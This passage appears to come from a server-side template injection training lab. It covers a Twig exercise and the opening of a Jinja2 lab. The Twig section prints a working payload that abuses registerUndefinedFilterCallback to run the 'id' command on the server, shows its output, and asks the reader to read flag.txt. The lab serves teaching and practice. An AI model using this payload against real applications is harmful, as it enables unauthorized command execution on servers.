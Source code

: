 
In this form, you can submit a simple expression to confirm that a template is used to display a value. The expression bellow will do a subtraction.

```
{{1338-1}}
```
*This subtraction should display 1337 as result*


```js
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```
*Executing the id command*

The result of the id command should be:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Can you access to the file `flag.txt` on the server?




## LAB 2: Jinja2 (Python)
Duration: 00:20:00

![Jinja Template](assets/jinja-big.png)

### Introduction

Jinja is a popular template engine in Python. It is a template that is very similar to Django template. Compared to Django templates, Jinja can be easily used dynamically at runtime. Django templates are designed to be dynamic views which are stored in static files.

### Template syntax basics

Here are few simple expressions that illustrate the basic syntax.

```js
//String
{{ message }}
//Accessing an attribute
{{ foo.bar }}
//Accessing an attribute (alternative)
{{ foo['bar'] }}
```
*Basic variable binding*
